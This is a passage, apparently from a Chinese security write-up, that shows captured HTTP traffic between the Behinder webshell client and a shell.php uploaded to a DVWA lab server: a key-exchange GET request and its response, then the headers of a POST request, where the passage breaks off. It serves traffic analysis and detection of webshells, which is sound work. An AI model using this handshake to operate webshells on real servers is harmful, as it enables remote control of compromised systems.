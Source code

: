 #### 2）冰蝎客户端与服务端通信流量

**GET请求包**

GET /DVWA/hackable/uploads/shell.php?pass=673 HTTP/1.1

Content-type: application/x-www-form-urlencoded

User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3)

Host: 192.168.66.136

Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2

Connection: keep-alive

**GET请求返回包**

HTTP/1.1 200 OK

Date: Mon, 19 Aug 2019 09:34:36 GMT

Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

X-Powered-By: PHP/5.4.45

Set-Cookie: PHPSESSID=m0agat42tmo0i4srnda5ssfq94; path=/

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0

Pragma: no-cache

Content-Length: 16

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html

03befc81cbefda94

**POST请求包**

POST /DVWA/hackable/uploads/shell.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=bv5lv0681hq09ggt8rfj1peio5; path=/

User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3)

Cache-Control: no-cache

Pragma: no-cache

Host: 192.168.66.136

Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2

Connection: keep-alive
